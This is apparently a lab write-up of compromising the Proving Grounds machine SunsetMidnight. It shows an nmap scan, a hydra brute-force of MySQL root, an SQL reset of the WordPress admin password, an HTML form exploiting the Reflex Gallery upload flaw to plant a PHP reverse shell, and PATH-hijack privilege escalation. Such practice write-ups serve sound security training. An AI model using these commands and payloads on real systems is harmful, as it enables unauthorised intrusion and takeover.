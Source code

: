 #### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 00:15:18 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.128.88/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.128.88/scans/xml/_full_tcp_nmap.xml 192.168.128.88
Warning: 192.168.128.88 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.128.88
Host is up, received user-set (0.28s latency).
Scanned at 2022-02-27 00:15:18 EST for 1752s
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:fe:0b:8b:8d:15:e7:72:7e:3c:23:e5:86:55:51:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCm5CuyxbQ0hflsMDQe6CKt3H41UNbqR/7dqfRp2OkKxsOZ8sM0gHgGPU41j+b6ByHnkBSYi+NEIV+VXcnpGraaGhn/3mjF5uvgVdei5n2O9ZgX6Vuefk4o6Q3DL2DsEtOCaepPimfSX1TetQUjWc8f9ciax4Za5FdCjZL/L1eV211Aidf93iROG7y6GUzRyMGBGQTPUnZK39dTmJEpo+qprHmv2LCG84azdXwTGR1YilTVtrgnkMUyrq6gnuins4fxLkm5OwnznuL8nQgIWfH9I0YGuFkqf3pR1VHFeaOJnFMh9XfH58/BzlzLVtcaKYP45ARztIouRVtgHseXmW7X
|   256 fe:eb:ef:5d:40:e7:06:67:9b:63:67:f8:d9:7e:d3:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOByIes6+atfEdAfAg4dy8LGa1TrPSa7sVSWSkEc5X+/932xaylSrtw/EvgKnGFW4zxSDNywRWtsJ6PN2iTRujQ=
|   256 35:83:68:2c:33:8b:b4:6c:24:21:20:0d:52:ed:cd:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILUvvXW/tfdzAPwVMpeX7n7D3ObXCvVg2fpFsKc3htfy
80/tcp    open     http           syn-ack     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp  open     mysql          syn-ack     MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 3084
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, ODBCClient, SupportsTransactions, ConnectWithDatabase, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, FoundRows, SupportsLoadDataLocal, SupportsCompression, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: D-S:h|X">Rd|c\&Ejf?G
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
3886/tcp  filtered nei-management no-response
3906/tcp  filtered topovista-data no-response
5693/tcp  filtered rbsystem       no-response
15603/tcp filtered unknown        no-response
21709/tcp filtered unknown        no-response
25388/tcp filtered unknown        no-response
26534/tcp filtered unknown        no-response
28728/tcp filtered unknown        no-response
36844/tcp filtered unknown        no-response
37564/tcp filtered unknown        no-response
39569/tcp filtered unknown        no-response
40948/tcp filtered unknown        no-response
45677/tcp filtered unknown        no-response
46313/tcp filtered unknown        no-response
47401/tcp filtered unknown        no-response
50113/tcp filtered unknown        no-response
50225/tcp filtered unknown        no-response
50364/tcp filtered unknown        no-response
53270/tcp filtered unknown        no-response
61622/tcp filtered unknown        no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 00:44:30 2022 -- 1 IP address (1 host up) scanned in 1752.38 seconds

```

Browsing to port 80 HTTP service through IP address fails and it returns a domain name ```sunset-midnight```. We need to modify DNS settings first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h44m48s_001.png)

We add a DNS rule in ```/etc/hosts``` file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h49m45s_002.png)
 
Browsing to port 80 HTTP service again, and this time we see a webpage built with WordPress.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h54m51s_003.png)

The WordPress plugin we find is ```Simply Poll``` but its real version is 1.5, not 1.4.1 which has a vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h06m07s_004.png)

After a lot of searching, I can't find the breakthrough of the WordPress website. So I move to port 3306 and try to brute-force database password.

I try to use the account ```wordpress``` but fail. [(*understanding max_connect_errors*)](https://www.virtual-dba.com/blog/mysql-max-connect-errors/)

```
hydra -l root -P ~/Documents/rockyou.txt -s 3306 -t 4 -f 192.168.128.88 mysql
```

Change the account to root to try and we successfully get the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h49m01s_005.png)

Browsing to WordPress database we We can change the password to ```admin123```.

```
UPDATE wp_users SET user_pass = MD5('admin123') WHERE ID = '1';
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h52m50s_006.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m03s_007.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m26s_008.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h54m55s_009.png)

Logging in to WordPress dashboard. We can [upload and activate a malicious plugin](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#uploading-and-activating-malicious-plugin).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h10m32s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h11m44s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m11s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m34s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h18m32s_014.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h22m38s_015.png)

According to the [exploit](https://www.exploit-db.com/exploits/36374) instructions we create an html file for uploading.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h23m25s_016.png)

```html
<form method="POST" action="http://sunset-midnight/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2022&Month=02" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h24m19s_017.png)

Now let's prepare a [php file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h29m08s_018.png)

Use firefox to open our test.html file and upload the php malicious file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h32m46s_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h33m10s_020.png)

Start listening to 80 port and browse to the address indicated by the vulnerability.

```
http://sunset-midnight/wp-content/uploads/2022/02/php-reverse-shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h34m54s_021.png)

#### Priviledge Escalation

Checking the ```wp-config.php``` first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h52m27s_022.png)

Trying to use the credential to login through ssh.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h56m00s_023.png)

We find an unknown binary in the scan results of linpeas.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h00m41s_024.png)

Checking this unknown binary reveals that it executes a command with an unspecified path.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h03m46s_025.png)

We create our service to run the malicious code.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h09m59s_026.png)
